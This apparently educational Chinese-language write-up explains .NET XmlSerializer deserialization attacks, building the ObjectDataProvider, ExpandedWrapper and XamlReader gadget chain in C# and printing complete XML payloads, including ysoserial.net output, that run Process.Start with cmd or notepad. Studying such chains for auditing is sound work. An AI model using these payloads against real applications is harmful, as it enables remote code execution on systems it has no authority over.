








# 0x00 简介

反序列化学习主要用到如下资料：

1.`.NET`反序列化`payload`生成工具[ysoserial.net](https://github.com/pwntester/ysoserial.net)。

2.[attacking-net-serialization](https://speakerdeck.com/pwntester/attacking-net-serialization)其中列举了多种反序列化漏洞。



3.[BH_US_12_Forshaw_Are_You_My_Type_WP.pdf](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)

# 0x01 XmlSerializer序列化

>`System.Xml.Serialization.XmlSerializer`类他可以将对象序列化到XML文档中和从XML文档中反序列化对象，在这个过程中构造`XmlSerializer`对象期间需要指定它将处理的类型`XmlSerializer(Type)` 传入的Type也就是我们的重点关注对象，因为Type类，是用来包含类型的特性。类型信息包含数据，属性和方法等信息。如果我们传入一个特定的payload那么我们就可以调用他的方法了。

首先我们先熟悉一下`XmlSerializer`的序列化


>code:1.0

```
namespace XmlSerializers
{
    class Program
    {
        static void Main(string[] args)
        {
            test fof = new test();
            fof.id = "404s";
            XmlSerializer xmlFormatter = new XmlSerializer(typeof(test));
            using (Stream stream = new FileStream("404.xml", FileMode.Create, FileAccess.Write, FileShare.None))
            {
                xmlFormatter.Serialize(stream, fof);
            }
        }
    }
    [XmlRoot("test")]
    public class test
    {
        string _id = "404";
        [XmlElement]
        public string id {
            get { return _id; }
            set
            {
                _id = value;
            }
        }
    }
}

```
其中`[XmlRoot("test")]`指定的元素将被序列化成xml的根元素,`[XmlElement]`为指定类的公共域或读/写属性,具体可以参考[.net序列化及反序列化](https://www.cnblogs.com/sandyliu1999/p/4844664.html)。

>404.xml

```

<?xml version="1.0"?>
<test xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <id>404s</id>
</test>

```

如果我们把这段代码换成如下：

>code:1.1

```

namespace XmlSerializers
{
    class Program
    {
        static void Main(string[] args)
        {
            ExecCMD fof = new ExecCMD();
            fof.cmd = "cmd";
            XmlSerializer xmlFormatter = new XmlSerializer(typeof(ExecCMD));
            using (Stream stream = new FileStream("404.xml", FileMode.Create, FileAccess.Write, FileShare.None))
            {
                xmlFormatter.Serialize(stream, fof);
            }
        }
    }
    [XmlRoot("ExecCMD")]
    public class ExecCMD
    {
        private String _cmd = "notepad";
        [XmlElement]
        public String cmd
        {
            get { return _cmd; }
            set
            {
                _cmd = value;
                ExecCommand();
            }
        }
        private void ExecCommand()
        {
            Process myProcess = new Process();
            myProcess.StartInfo.FileName = _cmd;
            myProcess.Start();
            myProcess.Dispose();
        }
    }
}


```

程序本意是调用`notepad.exe`,我们在序列化的过程中把`_cmd`的值改成`cmd` 然后序列化/反序列化他将调用`CMD.EXE`,当然实际是基本遇不到这种情况的。

>404.xml

```
<?xml version="1.0"?>
<ExecCMD xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <cmd>cmd</cmd>
</ExecCMD>

```


# 0x01 XmlSerializer反序列化

前面说过构造`XmlSerializer`对象期间需要指定它将处理的类型`XmlSerializer(Type)`，获取`Type`有一般有有3种方式：a.使用typeof运算符 b.使用GetType()方法 c.使用Type类的静态方法GetType()。

## 1.1 typeof运算符

我们把`code:1.1`中的`Main`函数换成如下

```

static void Main(string[] args)
{

    using (StringReader rdr = new StringReader("<?xml version=\"1.0\" encoding=\"gb2312\"?> <ExecCMD xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"> <cmd>cmd.exe</cmd> </ExecCMD>"))
    {
        ExecCMD execCMD;
        XmlSerializer serializer = new XmlSerializer(typeof(ExecCMD));
        execCMD = (ExecCMD)serializer.Deserialize(rdr);
        Console.WriteLine(execCMD.cmd);
        Console.WriteLine(typeof(ExecCMD));
    }
}

```

其中传入的`XML`就是`code:1.1`生成的`404.xml`运行程序看到如下：




## 1.2 GetType()方法

`GetType()`是基类`System.Object`的方法，因此只有建立一个实例之后才能够被调用




## 1.3 Type类的静态方法GetType(string)

相比前面的2种方法，`Type.GetType(string)` 允许传入自定义字符串，那么灵活性更高。




至此我们的利用链应该是：





这种方式还是比较被动，我们是否可以执行任意类的任意方法，这样我们的利用过程就更为主动，这里就要引入`ObjectDataProvider`类。


# 0x02 寻找利用链


## 2.0 ObjectDataProvider


[ObjectDataProvider](https://docs.microsoft.com/zh-cn/dotnet/api/system.windows.data.objectdataprovider)用于包装和创建可以用作绑定源的对象，听起来比较抽象，可以理解为可以调用一个方法，并且传入参数。


>code 2.0

```

public static void test()
{
    ObjectDataProvider objectDataProvider = new ObjectDataProvider();
    objectDataProvider.ObjectInstance = new MyClasss();
    objectDataProvider.MethodName = "PullFile";
    objectDataProvider.MethodParameters.Add("cmd");
    XmlSerializer serializer1 = new XmlSerializer(typeof(ObjectDataProvider), new Type[] { typeof(MyClasss) });

    TextWriter textWriter = new StreamWriter(@"data.xml");
    serializer1.Serialize(textWriter, objectDataProvider);
}
public class MyClasss
{


    public void PullFile(string _cmd)
    {
        Process myProcess = new Process();
        myProcess.StartInfo.FileName = _cmd;
        myProcess.Start();
        myProcess.Dispose();
    }

}

```


但是这样生产会报错，原因好像是`XmlSerializer` 序列化只会找他的基类，所以`objectDataProvider.ObjectInstance = new MyClasss();`这里就没办法找到，要解决这个问题可以用`XmlSerializer(Type, Type[])` 或者用[ExpandedWrapper](https://docs.microsoft.com/zh-cn/dotnet/api/system.data.services.internal.expandedwrapper-1)预加载实体

### 2.0.1 XmlSerializer(Type, Type[])

> code 2.1

```

ObjectDataProvider objectDataProvider = new ObjectDataProvider();
objectDataProvider.ObjectInstance = new MyClasss();
objectDataProvider.MethodName = "PullFile";
objectDataProvider.MethodParameters.Add("cmd");
XmlSerializer serializer1 = new XmlSerializer(typeof(ObjectDataProvider), new Type[] { typeof(MyClasss) });

TextWriter textWriter = new StreamWriter(@"data.xml");
serializer1.Serialize(textWriter, objectDataProvider);

```

>data.xml

```

<?xml version="1.0" encoding="utf-8"?>
<ObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <ObjectInstance xsi:type="MyClasss" />
  <MethodName>PullFile</MethodName>
  <MethodParameters>
    <anyType xsi:type="xsd:string">cmd</anyType>
  </MethodParameters>
</ObjectDataProvider>

```

###  2.0.2 [ExpandedWrapper](https://docs.microsoft.com/zh-cn/dotnet/api/system.data.services.internal.expandedwrapper-1)预加载实体

>code 2.2

```
ExpandedWrapper<MyClasss, ObjectDataProvider> myExpWrap = new ExpandedWrapper<MyClasss, ObjectDataProvider>();
myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
myExpWrap.ProjectedProperty0.ObjectInstance = new MyClasss();
myExpWrap.ProjectedProperty0.MethodName = "PullFile";
myExpWrap.ProjectedProperty0.MethodParameters.Add("cmd.exe");
XmlSerializer serializer1 = new XmlSerializer(typeof(ExpandedWrapper<MyClasss, ObjectDataProvider>));
TextWriter textWriter = new StreamWriter(@"data.xml");
serializer1.Serialize(textWriter, myExpWrap);

```

>data.xml

```

<?xml version="1.0" encoding="utf-8"?>
<ExpandedWrapperOfMyClasssObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="MyClasss" />
    <MethodName>PullFile</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">cmd.exe</anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfMyClasssObjectDataProvider>

```

反序列化触发：



至此我们已经可以使用`ObjectDataProvider` 调用引用类文件的方法了。但是`MyClasss`类也是我们自己设计的，在实际环境中可能还是不存在这种理想化模型，由于`ObjectDataProvider`可以调用`Process.Start`，但是不能直接序列化，所以我们需要找到一个途径来间接调用`Process.Start`。




## 2.1 XamlReader

`XamlReader`他有一个方法`Parse(String)` 是传入一个字符串，返回根对象,那么我们用`ObjectDataProvider`构造传参一个`XAML`,同时XAML的`ObjectDataProvider`调用`Process.Start`那么利用链就成功了。

## 2.2 ResourceDictionary

要生成XAML还需要引用[ResourceDictionary](https://docs.microsoft.com/zh-cn/dotnet/api/system.windows.resourcedictionary)类。


## 2.3 生成payload

>code 2.3 

```

public static void xaml_data()
{
    ObjectDataProvider objectDataProvider = new ObjectDataProvider();
    objectDataProvider.ObjectType = typeof(System.Diagnostics.Process);
    objectDataProvider.MethodParameters.Add("notepad.exe");
    objectDataProvider.MethodName = "Start";
    ResourceDictionary R_xaml = new ResourceDictionary();
    R_xaml.Add("test", objectDataProvider);
    string xaml_data;
    using (MemoryStream stream = new MemoryStream())
    {

        XamlServices.Save(stream, objectDataProvider);
        stream.Position = 0;
        StreamReader reader = new StreamReader(stream);
        xaml_data = reader.ReadToEnd();
        stream.Close();
    }

    Console.WriteLine(xaml_data);
}

public static void xml_payload()
{
    ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider> myExpWrap = new ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>();
    myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
    myExpWrap.ProjectedProperty0.ObjectInstance = new System.Windows.Markup.XamlReader();
    myExpWrap.ProjectedProperty0.MethodName = "Parse";
    myExpWrap.ProjectedProperty0.MethodParameters.Add(xaml_data());

    using (MemoryStream stream = new MemoryStream())
    {
        XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>));
        xml.Serialize(stream, myExpWrap);
        stream.Position = 0;
        StreamReader reader = new StreamReader(stream);
        Console.WriteLine(reader.ReadToEnd());
        Console.WriteLine(typeof(ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>).AssemblyQualifiedName);
    }

}

```
`xaml_data()` 生成`XamlReader()`调用的`xaml`文件，`ObjectDataProvider`调用`XamlReader()`传参`xaml`整个利用链的`payload`就完成了, `typeof(ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>).AssemblyQualifiedName`是获取程序集限定名，用于传入`Type`。

>exp.xml

```
<?xml version="1.0"?>
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="XamlReader" />
    <MethodName>Parse</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">&lt;ObjectDataProvider MethodName="Start" ObjectType="sd:Process" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"&gt;
  &lt;ObjectDataProvider.MethodParameters&gt;
    &lt;x:String&gt;notepad.exe&lt;/x:String&gt;
  &lt;/ObjectDataProvider.MethodParameters&gt;
&lt;/ObjectDataProvider&gt;</anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>

```


注：使用`XamlReader`等需要引用对应的模块


## 2.4 复现

>code 2.4 反序列化

```

using (StringReader rdr = new StringReader("payload"))
{
    XmlSerializer serializer = new XmlSerializer(Type.GetType("System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"));
    serializer.Deserialize(rdr);
}

```




## 2.5 ysoserial.net

以上其实是[ysoserial.net](https://github.com/pwntester/ysoserial.net)生成的`payload`反推。

>ysoserial.exe -f XmlSerializer -g ObjectDataProvider -c "notepad.exe" -o raw

```

<?xml version="1.0"?>
<root xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider>
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    &lt;ResourceDictionary xmlns=&quot;http://schemas.microsoft.com/winfx/2006/xaml/presentation&quot; xmlns:x=&quot;http://schemas.microsoft.com/winfx/2006/xaml&quot; xmlns:System=&quot;clr-namespace:System;assembly=mscorlib&quot; xmlns:Diag=&quot;clr-namespace:System.Diagnostics;assembly=system&quot;&gt;
                        &lt;ObjectDataProvider x:Key=&quot;LaunchCmd&quot; ObjectType=&quot;{x:Type Diag:Process}&quot; MethodName=&quot;Start&quot;&gt;
                            &lt;ObjectDataProvider.MethodParameters&gt;
                                &lt;System:String&gt;cmd&lt;/System:String&gt;
                                &lt;System:String&gt;/c notepad.exe&lt;/System:String&gt;
                            &lt;/ObjectDataProvider.MethodParameters&gt;
                        &lt;/ObjectDataProvider&gt;
                    &lt;/ResourceDictionary&gt;
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>

```
这里把payload分成2部分使用

>Type

```
System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089

```

>XML

```

<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<ExpandedElement/>
<ProjectedProperty0>
    <MethodName>Parse</MethodName>
    <MethodParameters>
        <anyType  xsi:type="xsd:string">
            &lt;ResourceDictionary xmlns=&quot;http://schemas.microsoft.com/winfx/2006/xaml/presentation&quot; xmlns:x=&quot;http://schemas.microsoft.com/winfx/2006/xaml&quot; xmlns:System=&quot;clr-namespace:System;assembly=mscorlib&quot; xmlns:Diag=&quot;clr-namespace:System.Diagnostics;assembly=system&quot;&gt;
                &lt;ObjectDataProvider x:Key=&quot;LaunchCmd&quot; ObjectType=&quot;{x:Type Diag:Process}&quot; MethodName=&quot;Start&quot;&gt;
                    &lt;ObjectDataProvider.MethodParameters&gt;
                        &lt;System:String&gt;cmd&lt;/System:String&gt;
                        &lt;System:String&gt;/c notepad.exe&lt;/System:String&gt;
                    &lt;/ObjectDataProvider.MethodParameters&gt;
                &lt;/ObjectDataProvider&gt;
            &lt;/ResourceDictionary&gt;
        </anyType>
    </MethodParameters>
    <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
</ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>

```

这里位于`anyType`的`xmlns:xsi`如果按照生成的payload使用会造成`xsi`是未声明的前缀，所以这里我把他提前到`ExpandedWrapperOfXamlReaderObjectDataProvider` 。

# 0x03 总结


.NET反序列化的攻击链还是比较难找。审计的话就看`type` 和 `xml` 这2个值是否可控。


### 参考文章:

[《.NET高级代码审计（第一课）XmlSerializer反序列化漏洞》](https://www.anquanke.com/post/id/172316)

[《.Net反序列化那些事》](https://mp.weixin.qq.com/s/0ztdMsdEeEBWM0j8uEF_Cw)